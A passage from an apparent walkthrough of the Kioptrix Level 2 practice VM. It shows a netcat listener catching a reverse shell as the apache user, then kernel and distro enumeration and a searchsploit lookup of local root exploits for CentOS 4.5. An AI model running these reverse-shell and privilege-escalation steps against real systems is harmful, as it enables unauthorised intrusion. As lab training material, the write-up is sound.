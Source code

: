 Catch it by using netcat on the attacking end:
```
root@Cortana:/home/montana/Documents/Kioptrix_2# nc -nvlp 443
	listening on [any] 443 ...
```

And we have our shell:
```
	connect to [192.168.123.128] from (UNKNOWN) [192.168.123.130] 32769
	bash: no job control in this shell
	bash-3.00$ whoami
	apache
```

# Privilege Escalation

From here we need to find a way to get ourselves root privileges. This VM is running on an old version of Linux, so I want to identify the specific distro and kernel version it's running.

The command `lsb_release -a` prints information on the Linux Standard Base of the host machine:
```
bash-3.00$ lsb_release -a
	LSB Version:    :core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
	Distributor ID: CentOS
	Description:    CentOS release 4.5 (Final)
	Release:        4.5
	Codename:       Final
```

And we can also verify the kernel version by running uname -a
```
bash-3.00# uname -a
	Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 athlon i386 GNU/Linux
```

## Privesc Attempt #1: 9542.c

Using Searchsploit, we can look for existing exploits for our victim's specific distro:
```
root@Cortana:/home/montana/Documents/Kioptrix_2# searchsploit CentOS 4.5
	-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
	 Exploit Title                                                                                                                                                            |  Path
	                                                                                                                                                                          | (/usr/share/exploitdb/)
	-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
	Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)                                      | exploits/linux_x86/local/9542.c
	Linux Kernel 3.14.5 (CentOS 7 / RHEL) - 'libfutex' Local Privilege Escalation                                                                                             | exploits/linux/local/35370.c
	-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
